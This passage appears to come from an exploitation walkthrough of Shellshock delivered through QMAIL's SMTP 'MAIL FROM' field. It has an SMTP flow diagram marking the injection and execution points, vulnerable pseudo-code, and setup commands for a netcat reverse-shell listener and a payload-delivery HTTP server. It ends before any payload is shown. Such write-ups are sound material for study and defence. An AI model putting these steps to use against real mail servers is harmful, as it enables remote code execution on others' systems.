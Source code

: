 ```
Client                           QMAIL Server
  |                                   |
  |  1. HELO client.domain           |
  |--------------------------------->|
  |     220 OK                       |
  |<---------------------------------|
  |                                   |
  |  2. MAIL FROM:<malicious>        |
  |--------------------------------->|  ← INJECTION POINT
  |     250 OK                       |
  |<---------------------------------|
  |                                   |
  |  3. RCPT TO:<victim@domain>      |
  |--------------------------------->|
  |     250 OK                       |
  |<---------------------------------|
  |                                   |
  |  4. DATA                         |
  |--------------------------------->|
  |     354 Start mail input         |
  |<---------------------------------|
  |                                   |
  |  5. Email content + payload      |
  |--------------------------------->|  ← EXECUTION TRIGGER
  |     250 Message accepted         |
  |<---------------------------------|  ← CODE EXECUTION
```

### Vulnerability Analysis

QMAIL's critical flaw lies in insufficient validation of the `MAIL FROM` parameter:

```c
// Pseudo-code representation of vulnerable QMAIL logic
void process_mail_from(char *email_address) {
    // VULNERABILITY: No validation of email format
    setenv("MAIL_FROM", email_address, 1);
    
    // Later processed by shell scripts
    system("/var/qmail/bin/qmail-local");  // Bash execution
}
```

When QMAIL processes the email, it passes the unvalidated `MAIL FROM` value to Bash through environment variables, triggering Shellshock.

## Exploitation Walkthrough

### Step 1: Setup Attack Infrastructure

```bash
# Terminal 1: Setup reverse shell listener
nc -lvp 9669

# Terminal 2: Prepare payload delivery server
python3 -m http.server 8080
```
